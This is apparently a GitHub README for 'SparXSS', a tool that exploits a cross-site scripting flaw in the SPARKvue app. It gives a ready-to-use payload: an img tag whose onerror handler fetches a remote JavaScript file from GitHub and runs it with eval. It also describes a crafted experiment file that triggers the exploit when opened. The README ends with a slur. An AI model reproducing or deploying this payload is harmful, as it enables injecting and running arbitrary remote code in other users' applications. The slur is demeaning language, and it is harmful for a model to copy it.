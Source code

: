 # SparXSS

## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:<br>```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

You Can Also Use The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

# ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

# Current Status:
- Working (it wasn't before bc im a retard)
